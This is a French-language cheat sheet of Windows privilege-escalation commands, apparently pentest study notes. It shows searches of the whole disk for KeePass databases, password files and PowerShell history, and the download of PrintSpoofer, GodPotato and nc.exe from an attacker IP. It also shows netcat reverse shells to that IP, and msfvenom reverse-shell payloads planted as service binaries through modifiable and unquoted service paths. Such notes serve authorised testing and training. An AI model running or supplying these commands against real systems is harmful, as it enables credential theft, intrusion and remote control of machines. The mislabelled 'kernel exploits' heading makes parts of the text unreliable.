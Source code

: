 - OU
  ```bash
  Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue # (rechercher un fichier de sauvegarde)
  Get-ChildItem -Path C:\xampp -Include .txt,.ini -File -Recurse -ErrorAction SilentlyContinue # (vérifier les fichiers) | type C:\xampp\passwords.txt | type C:\xampp\mysql\bin\my.ini
  Get-ChildItem -Path C:\Users\dave\ -Include .txt,.pdf,.xls,.xlsx,.doc,.docx -File -Recurse -ErrorAction SilentlyContinue # (vérifier doc txt etc)
  ```
- Une autre mine d'or powershell
  ```bash
  Get-History | (Get-PSReadlineOption).HistorySavePath # (fichier trouvé puis type noman.txt et si commande trouvée, faites-le à cause du root)
  cd C:\ | pwd | dir
  ```

### SeImpersonatePrivilege activé
```bash
Whoami /priv et Whoami /all
```

#### Printspoofer
```bash
curl 192.168.10.10/PrintSpoofer64.exe -o Pr.exe
.\Pr.exe -i -c cmd # OU .\PrintSpoofer32.exe -i -c powershell.exe
```

#### GODpotato
```bash
curl 192.168.10.10:8081/GodPotato-NET2.exe -o god.exe
.\god.exe -cmd "cmd /c whoami" # OU
curl 192.168.10.10:8081/nc.exe -o nc.exe
.\god.exe -cmd "cmd /c C:\xampp\htdocs\cms\files\nc.exe 192.168.10.10 443 -e cmd"
.\god.exe -cmd "cmd /c C:\xampp\htdocs\cms\files\nc.exe 192.168.10.10 443 -e powershell"
```

### Exploits du noyau
#### Service Biopath modifiable
```bash
Get-ModifiableServiceFile
# Vérification des permissions et vérification de l'arrêt/démarrage du service
# Msfvenom créer shell et télécharger (curl, iwr, certutil)
icacls "C:\Program Files"
msfvenom -p windows/shell_reverse_tcp lhost=192.168.10.10 lport=443 -f exe -o rev.exe
del "C:\program files\noman\noman.exe"
curl 192.168.10.10/rev.exe -o noman.exe
cp noman.exe "C:\program files\noman\"
net start noman
```

#### Chemin non cité
```bash
Get-UnquotedService
# Vérification des permissions et vérification de l'arrêt/démarrage du service
# Msfvenom créer shell et télécharger (curl, iwr, certutil)
icacls "C:\Program Files"
msfvenom -p windows/shell_reverse_tcp lhost=192.168.10.10 lport=443 -f exe -o rev.exe
del "C:\program files\noman\noman.exe"
curl 192.168.10.10/rev.exe -o noman.exe
cp noman.exe "C:\program files\noman\"
net start noman
```
